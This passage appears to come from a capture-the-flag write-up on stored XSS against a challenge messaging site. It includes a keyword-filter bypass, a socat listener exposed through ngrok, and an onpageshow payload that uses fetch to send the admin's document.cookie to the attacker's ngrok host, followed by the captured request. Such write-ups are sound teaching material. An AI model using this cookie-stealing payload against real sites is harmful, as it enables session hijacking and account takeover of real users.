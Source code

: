To use function/objects like ```console``` that contain censored words we can use a simple trick:
```html
<body onpageshow="globalThis['co'+'nsole'].log('Hey')">
```

We need our injected code to send us the admin's cookie when the admin loads their messages.

### Setting up the server

First we need a server with that can be reached by the admin's client, here is a simple solution

Use socat to create a tcp socket, we could use a real http server but it doesn't really matter.
```bash
$ socat TCP-LISTEN:9000,fork stdout
```

Then to make it available online we can use [ngrok](https://ngrok.com/):
```bash
$ ngrok http 9000

Session Status                online                                                                                
Account                       User (Plan: Free)                                                                   
Version                       3.1.0                                                                                 
Region                        Europe (eu)                                                                           
Latency                       42ms                                                                                  
Web Interface                 http://127.0.0.1:4040                                                                 
Forwarding                    https://7097-163-5-23-68.eu.ngrok.io -> http://localhost:9000
```
Notice the ```Forwarding``` section, ```https://7097-163-5-23-68.eu.ngrok.io``` is where we'll want the admin to make requests.

### XSS command

We can use [fetch](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch) to make http requests, the cookie is in ```document.cookie```.
```html
<body onpageshow="fetch('https://7097-163-5-23-68.eu.ngrok.io', {method: 'post', body: document.cookie})">
```

A first request will arrive immediately, that's the one from our client. Within a minute a second request will arrive from the admin.

Using socat it should look something like this:
```
POST / HTTP/1.1
Host: 7097-163-5-23-68.eu.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Content-Length: 0
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Cache-Control: no-cache
Content-Type: text/plain;charset=UTF-8
Origin: https://whatsup.secu-web.blackfoot.dev
Pragma: no-cache
Referer: https://whatsup.secu-web.blackfoot.dev/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Te: trailers
X-Forwarded-For: 163.5.23.68
```